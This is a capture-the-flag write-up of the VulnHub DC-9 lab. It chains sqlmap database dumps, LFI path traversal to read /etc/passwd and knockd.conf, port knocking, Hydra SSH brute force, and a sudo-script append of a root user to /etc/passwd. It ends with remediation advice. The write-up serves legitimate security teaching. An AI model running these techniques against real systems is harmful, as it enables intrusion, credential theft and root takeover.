




# DC: 9 — Writeup

| | |
|-|-|
| **Target IP** | 192.168.1.8 (host-only) |
| **Difficulty** | Medium |
| **OS** | Linux |
| **Root Flag** | /root/thefinalflag.txt |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/dc-9,412/) |

## Attack Summary

nmap → SQLi in search form → LFI on welcome.php → /etc/knockd.conf → port knocking → Hydra SSH brute → janitor secrets → fredf creds → sudo test → /etc/passwd append → root

## Methodology

1. Network scan — SSH filtered, port 80 open
2. SQL injection in search → dump Staff + users DB
3. LFI in welcome.php → read /etc/knockd.conf
4. Port knocking to open SSH
5. Hydra brute-force SSH → janitor credentials
6. janitor hidden secrets → more passwords → fredf creds
7. fredf `sudo test` → append root user to /etc/passwd

---

## Step 1: Network Discovery

```bash
sudo netdiscover -i eth1 -r 192.168.56.0/24
nmap -A 192.168.1.8
```

Port 22 (SSH) filtered. Port 80 open (Apache, Drupal-styled web app).


---

## Step 2: SQL Injection (Search Form)

Find the search form on the web app. Capture the POST request in Burp Suite, save to `raj.txt`.

```bash
# Enumerate databases
sqlmap -r raj.txt --dbs --batch
# Databases: Staff, users, information_schema

# Dump Staff (admin password)
sqlmap -r raj.txt -D Staff --dump-all --batch
# admin hash → crack → admin password

# Dump users (SSH credentials)
sqlmap -r raj.txt -D users --dump-all --batch
# UserDetails table: usernames + passwords
```



Log in as admin. The footer shows a "File does not exist" error — indicates an LFI vulnerability.

---

## Step 3: Local File Inclusion + Port Knock Discovery

Test the `file` parameter on `welcome.php`:

```bash
# Confirm LFI
http://192.168.1.8/welcome.php?file=../../../../../../../etc/passwd

# Read knockd config (port knocking sequence)
http://192.168.1.8/welcome.php?file=../../../../../../../etc/knockd.conf
```

knockd.conf reveals the sequence: **7469 → 8475 → 9842**



---

## Step 4: Port Knocking → SSH Open

```bash
knock 192.168.1.8 7469 8475 9842
nmap -p22 192.168.1.8
# Port 22 now OPEN
```

---

## Step 5: SSH Brute-Force (Hydra)

Build wordlists from the `users` database dump:

```bash
hydra -L user.txt -P pass.txt 192.168.1.8 ssh
# Found: janitor:<password>

ssh janitor@192.168.1.8
ls -al
# Hidden directory: secrets-for-putin
cat secrets-for-putin/<file>
# Additional passwords → add to pass.txt

# Re-run Hydra
hydra -L user.txt -P pass.txt 192.168.1.8 ssh
# Found: fredf:<password>
```

---

## Step 6: Privilege Escalation (sudo test → /etc/passwd)

```bash
ssh fredf@192.168.1.8
sudo -l
# (root) NOPASSWD: /opt/devstuff/dist/test/test

cat /opt/devstuff/dist/test/test.py
# Appends contents of file1 to file2

# Generate password hash for new root user
openssl passwd -1 -salt pavan 123456
# $1$pavan$qv9M3fBmtDPrOTBZflNl81

# Create entry for root-level user
echo 'pavan:$1$pavan$qv9M3fBmtDPrOTBZflNl81:0:0::/root:/bin/bash' > /tmp/raj

# Append to /etc/passwd via sudo
sudo /opt/devstuff/dist/test/test /tmp/raj /etc/passwd

# Switch to new root user
su pavan  # password: 123456
whoami    # root
```





---

## Lessons Learned

1. **SQLi in search forms** exposes entire databases including credential tables
2. **LFI combined with port-knocking config** leaks the sequence to open filtered services
3. **sudo with file-append scripts** allows writing arbitrary content to /etc/passwd — breaks privilege model
4. Never store SSH credentials in a database accessible via SQLi

## Remediation

| Vulnerability | Fix |
|---------------|-----|
| SQL injection | Use parameterized queries; input validation |
| Local File Inclusion (welcome.php) | Whitelist allowed file paths; never pass user input directly to include() |
| Port knocking secret in /etc/knockd.conf | Restrict permissions on knockd.conf (0600, root) |
| sudo test with file write | Remove NOPASSWD sudo or restrict to non-system paths |
